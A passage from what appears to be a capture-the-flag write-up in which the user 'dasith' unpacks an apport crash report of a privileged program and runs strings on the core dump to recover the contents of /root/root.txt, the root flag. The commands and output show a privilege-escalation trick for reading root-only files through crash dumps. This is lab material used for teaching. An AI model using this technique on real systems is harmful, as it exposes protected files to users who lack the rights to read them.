 ```bash
-rw-r-----  1 root   root   24048 Oct  5 14:24 _opt_countzz.0.crash
dasith@secret:/opt$ mkdir /tmp/oopsie
dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /tmp/oopsie
dasith@secret:/var/crash$ cd /tmp/oopsie
dasith@secret:/tmp/oopsie$ ls -al
total 444
drwxr-xr-x  2 dasith dasith   4096 Oct 31 13:31 .
drwxrwxrwt 16 root   root     4096 Oct 31 13:30 ..
-rw-r--r--  1 dasith dasith      5 Oct 31 13:31 Architecture
-rw-r--r--  1 dasith dasith 380928 Oct 31 13:31 CoreDump
-rw-r--r--  1 dasith dasith      1 Oct 31 13:31 CrashCounter
-rw-r--r--  1 dasith dasith     24 Oct 31 13:31 Date
-rw-r--r--  1 dasith dasith     12 Oct 31 13:31 DistroRelease
-rw-r--r--  1 dasith dasith     10 Oct 31 13:31 ExecutablePath
-rw-r--r--  1 dasith dasith     10 Oct 31 13:31 ExecutableTimestamp
-rw-r--r--  1 dasith dasith      2 Oct 31 13:31 _LogindSession
-rw-r--r--  1 dasith dasith      5 Oct 31 13:31 ProblemType
-rw-r--r--  1 dasith dasith      7 Oct 31 13:31 ProcCmdline
-rw-r--r--  1 dasith dasith      4 Oct 31 13:31 ProcCwd
-rw-r--r--  1 dasith dasith     97 Oct 31 13:31 ProcEnviron
-rw-r--r--  1 dasith dasith   2144 Oct 31 13:31 ProcMaps
-rw-r--r--  1 dasith dasith   1342 Oct 31 13:31 ProcStatus
-rw-r--r--  1 dasith dasith      1 Oct 31 13:31 Signal
-rw-r--r--  1 dasith dasith     29 Oct 31 13:31 Uname
-rw-r--r--  1 dasith dasith      3 Oct 31 13:31 UserGroups
```
We have the coredump file so let's check it out using strings or else it will give out gibberish output.
```bash
dasith@secret:/tmp/oopsie$ strings CoreDump
Path: esults a file? [y/N]: words      = 2
Total lines      = 2
oot/root.txt
<----FLAG---->
```
We get the root flag from here